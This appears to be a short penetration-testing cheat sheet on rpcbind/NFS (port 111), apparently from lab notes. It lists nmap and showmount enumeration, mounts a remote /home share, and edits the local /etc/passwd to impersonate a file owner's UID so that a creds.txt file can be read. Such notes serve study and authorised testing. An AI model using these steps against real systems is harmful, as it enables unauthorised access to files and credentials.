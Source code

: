 # Port 111 - RpcBind

## Basic Information

### Nmap enumerations

```text
nmap -p 111 --script nfs* 10.11.1.72
```

### Manual enumerations

```text
showmount -e 10.11.1.72
```

## Mounting rpc share

```text
kali@kali:~$ mkdir /mnt/home
kali@kali:~$ sudo mount -t nfs -o vers=3  10.11.1.72:/home /mnt/home
```

## Getting access denied on files

### Impersonate user uid

```text
ls -aln ./
-rwx------ 1 1014 1014   48 Oct 28  2019 creds.txt
```

> cat /etc/passwd
>
> pwn:x:1001:1001:,,,:/home/pwn:/bin/bash

Changing the uid of the user pwn to impersonate the file owner on rpbind.

```text
sudo sed -i -e 's/1001/1014/g' /etc/passwd
```

## 

